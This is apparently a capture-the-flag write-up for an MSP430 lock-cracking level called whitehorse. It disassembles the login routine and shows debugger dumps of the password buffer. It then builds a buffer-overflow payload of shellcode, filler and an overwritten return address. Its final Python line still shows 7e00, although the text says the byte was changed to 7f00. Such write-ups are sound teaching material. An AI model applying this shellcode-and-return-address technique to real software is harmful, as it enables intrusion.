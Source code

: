 # whitehorse writeup

let's have a look at the different functions first:

**`<main>**:`

Lets look at the **`<main>`** function first, for this level it simply calls another function **`<login>`**

```asm
4438 <main>
4438:  b012 f444      call  #0x44f4 <login>
```

**`<login>**:`

this function doesn't look that interesting, but it calls another function: **<conditional_unlock_door>**

it prints ***“Access granted."*** or ***“That password is not correct."***

**!: Remember: passwords are between 8 and 16 characters.**

```asm
44f4 <login>
44f4: 3150 f0ff add #0xfff0, sp
44f8: 3f40 7044 mov #0x4470 "Enter the password to continue.", r15
44fc: b012 9645 call #0x4596 <puts>
4500: 3f40 9044 mov #0x4490 "Remember: passwords are between 8 and 16 characters.", r15
4504: b012 9645 call #0x4596 <puts>
4508: 3e40 3000 mov #0x30, r14
450c: 0f41 mov sp, r15
450e: b012 8645 call #0x4586 <getsn>
4512: 0f41 mov sp, r15
4514: b012 4644 call #0x4446 <conditional_unlock_door
4518: 0f93 tst r15
451a: 0324 jz #0x4522 <login+0x2e>
451c: 3f40 c544 mov #0x44c5 "Access granted.", r15
4520: 023c jmp #0x4526 <login+0x32>
4522: 3f40 d544 mov #0x44d5 "That password is not correct.", r15
4526: b012 9645 call #0x4596 <puts>
452a: 3150 1000 add #0x10, sp
452e: 3041 ret
```

**`<conditional_unlock_door>:`**

```asm
4446 <conditional_unlock_door>
4446:  0412           push  r4
4448:  0441           mov   sp, r4
444a:  2453           incd  r4
444c:  2183           decd  sp
444e:  c443 fcff      mov.b #0x0, -0x4(r4)
4452:  3e40 fcff      mov   #0xfffc, r14
4456:  0e54           add   r4, r14
4458:  0e12           push  r14
445a:  0f12           push  r15
445c:  3012 7e00      push  #0x7e ; lets have a look at the manual!
4460:  b012 3245      call  #0x4532 <INT>
4464:  5f44 fcff      mov.b -0x4(r4), r15
4468:  8f11           sxt   r15
446a:  3152           add   #0x8, sp
446c:  3441           pop   r4
446e:  3041           ret
```

***INT 0x7E:***

***Interface with the HSM-2. Trigger the deadbolt unlock if the password is
correct.***

***Takes one argument: the password to test.***

but after reading it for a while I noticed that I have to change it to this:

***INT 0x7F***

***``Interface with deadbolt to trigger an unlock if the password is correct.
Takes no arguments.``***

let's start debugging and enter a password:

I quickly realized that I can control the stack and after asking someone if I can call my own interrupt I simply did that.

let's have a look at this two instructions:

```asm
445c:  3012 7e00      push  #0x7e
4460:  b012 3245      call  #0x4532 <INT>
```

I just took `3012 7e00 b012 3245` for my own input to call 0x7e

I first asked myself what my payload should look like so I looked at the password buffer:

after playing around with the debugger I noticed that my password buffer starts at `3c72`

 read sp
   3c6a:   0200 723c 3000 1245  ..r<0..E
   3c72:   4242 4242 4242 4242  BBBBBBBB
   3c7a:   4242 4242 4242 4242  BBBBBBBB
   3c82:   4242 4242 0000 0000  BBBB....

( I entered 20 B's )

 read sp
   3c82:   4242 4242 0000 0000  BBBB....
   3c8a:   0000 0000 0000 0000  ........
   3c92:   0000 0000 0000 0000  ........
   3c9a:   0000 0000 0000 0000  ........

the `stack pointer` is here

so the `ret` will jump to the address at the 17-18th position of the password buffer 

Payload (hex encoded):

the first 8 bytes will be `3012 7f00 b012 3245` for my changed interrupt

`7e00` (I had to change that to `7f00` to trigger **INT 0x7f**)

the next 8 bytes are `4242424242424242` (you obviously can also enter other for example `41` 8 times )

the last 2 bytes are `3c72`

as you already know MSP 430 is `little endian` so it's `723c`

i did it with a python shell:

```python
>>> print('30127e00b0123245'+'41'*8+'723c')
```

this level was pretty tricky!

solved: 14.3.20
